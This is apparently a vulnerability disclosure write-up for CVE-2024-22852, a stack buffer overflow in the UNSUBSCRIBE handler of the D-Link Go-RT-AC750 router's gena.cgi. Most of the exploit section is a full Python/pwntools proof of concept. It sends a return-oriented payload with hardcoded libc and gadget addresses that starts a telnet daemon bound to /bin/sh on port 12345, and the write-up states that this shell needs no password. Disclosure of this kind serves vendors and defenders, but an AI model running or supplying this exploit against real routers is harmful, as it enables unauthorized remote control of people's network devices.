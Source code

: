 # D-Link Go-RT-AC750 Buffer Overflow Vulnerability

## Product information

Vendor of the product: https://www.dlink.com/

Product version: D-Link Go-RT-AC750 GORTAC750_A1_FW_v101b03

## vulnablitity overview

D-Link Go-RT-AC750 GORTAC750_A1_FW_v101b03 contains a stack-based buffer overflow via the Unsubscribe function in genacgi_main. This vulnerability allows attackers to enable telnet service via a specially crafted payload.

## Analyse

UNSUBSCRIBE function in genacgi_main

![img1](https://raw.githubusercontent.com/Beckaf/vunl/main/D-Link/AC750/1/img/img1.jpg)

Observing function parameters, SERVER_ID：LAN-1，SERVICE：'a'*600（buffer overflow），HTTP_SIP：1

![img2](https://raw.githubusercontent.com/Beckaf/vunl/main/D-Link/AC750/1/img/img2.png)

stack overflow

![img3](https://raw.githubusercontent.com/Beckaf/vunl/main/D-Link/AC750/1/img/img3.jpg)

## Exploit

Calculate buffer length

![img4](https://raw.githubusercontent.com/Beckaf/vunl/main/D-Link/AC750/1/img/img4.png)

In the end of function,There are some gadgets that can be used.

![img5](https://raw.githubusercontent.com/Beckaf/vunl/main/D-Link/AC750/1/img/img5.png)

poc

```python
from pwn import *
from socket import *
from os import *
from time import *
context(os = 'linux', arch = 'mips',log_level='debug',endian = 'big')
 
s = socket(AF_INET, SOCK_STREAM)
s.connect((gethostbyname("192.168.0.1"), 49152))

libc_base = 0x77f6c000
system_addr = 0x52510

# 482
cmd = b'telnetd -p 12345 -l /bin/sh;'

payload = 470*b'a'
payload += p32(system_addr + libc_base)    #s0
payload += b'b'*4                          #s1                 
payload += b'b'*4                          #s2                 
payload += p32(0x00017D68 + libc_base)     #ra
payload += cmd

#.text:00017D68 02 00 C8 21                   move    $t9, $s0
#.text:00017D6C 00 46 10 21                   addu    $v0, $a2
#.text:00017D70 24 42 00 10                   addiu   $v0, 0x10
#.text:00017D74 00 02 10 C2                   srl     $v0, 3
#.text:00017D78 00 02 10 C0                   sll     $v0, 3
#.text:00017D7C 03 A2 E8 23                   subu    $sp, $v0
#.text:00017D80 27 B2 00 10                   addiu   $s2, $sp, 0x150+var_140
#.text:00017D84 03 20 F8 09                   jalr    $t9 ; mempcpy
#.text:00017D88 02 40 20 21                   move    $a0, $s2

msg = b"UNSUBSCRIBE /gena.cgi?service=" + payload + b" HTTP/1.1\r\n"
msg += b"Host: localhost:49152\r\n"
msg += b"SID: 1\r\n\r\n"
s.send(msg)
sleep(1)          
system("telnet 192.168.0.1 12345")
```

The telnet service has been started.

Password is not required to login into telnet.

![img6](https://raw.githubusercontent.com/Beckaf/vunl/main/D-Link/AC750/1/img/img6.jpg)

## CVE-2024-22852

